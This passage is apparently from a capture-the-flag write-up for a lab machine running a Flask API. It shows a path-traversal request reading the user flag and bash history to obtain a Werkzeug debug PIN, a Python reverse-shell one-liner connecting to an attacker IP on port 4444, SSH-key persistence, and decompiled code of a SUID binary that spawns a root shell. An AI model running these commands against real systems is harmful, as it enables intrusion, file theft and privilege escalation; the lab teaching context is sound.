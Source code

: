 The `show` parameter seems to be vulnerable to injection.

## User flag

Let's read the user flag.

~~~
┌──(kali㉿kali)-[/usr/share/wordlists/SecLists/Fuzzing]
└─$ curl -s "http://10.10.244.142:5000/api/v1/resources/books?show=/home/sid/user.txt"     
4ea65eb80ed441adb68246ddf7b964ab
~~~

# Root flag

## Console

Now, we can read the bash history to find the PIN number:

~~~
└─$ curl -s "http://10.10.244.142:5000/api/v1/resources/books?show=/home/sid/.bash_history"
cd /home/sid
whoami
export WERKZEUG_DEBUG_PIN=123-321-135
echo $WERKZEUG_DEBUG_PIN
python3 /home/sid/api.py
ls
exit
~~~

Access to the console is not granted, with the PIN (`123-321-135`).

Now, start a listener (`nc -nlvp 4444`) and send a reverse shell command to the console:

~~~
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
~~~

At this stage, add your SSH public key to `/home/sid/.ssh/authorized_keys` and connect via SSH directly.

## Reverse Engineering (try-harder)

There is an interesting file (`/home/sid/try-harder`) in the home folder, because it has the SUID bit set. I downloaded a copy of the binary and analyzed it in Hopper. Below is the pseudo code of the `main()` function:


```c
int main() {
    setuid(0x0);
    puts("What's The Magic Number?!");
    __isoc99_scanf(0x8ee);
    if ((var_14 ^ 0x1116 ^ 0x5db3) == 0x5dcd21f4) {
            system("/bin/bash -p");
    }
    else {
            puts("Incorrect Try Harder");
    }
    rax = *0x28 ^ *0x28;
    if (rax != 0x0) {
            rax = __stack_chk_fail();
    }
    return rax;
}
```